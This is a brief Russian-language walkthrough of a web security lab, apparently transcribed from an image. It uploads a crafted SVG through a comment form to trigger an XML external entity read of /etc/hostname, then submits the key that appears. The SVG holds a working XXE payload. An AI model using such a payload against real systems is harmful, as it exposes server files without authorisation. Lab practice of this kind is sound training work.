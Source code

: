1) Перехватываем запрос от отправки коммента
2) Отправляем запрос в repeater. Отменяем перехват
3) Задаем filename как 1.svg.
4) Добавляем картинку таким кодом: <?xml version="1.0" standalone="yes"?><!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]>
<svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1"><text font-size="16" x="0" y="16">&xxe;</text></svg>
5) Запуск кода
6) Обновить страницу
7) Открыть фото
8) Извлекаем ключ faa13ffd8931
9) Вводим его в поле "submit answer"
10) Лаба выполнена

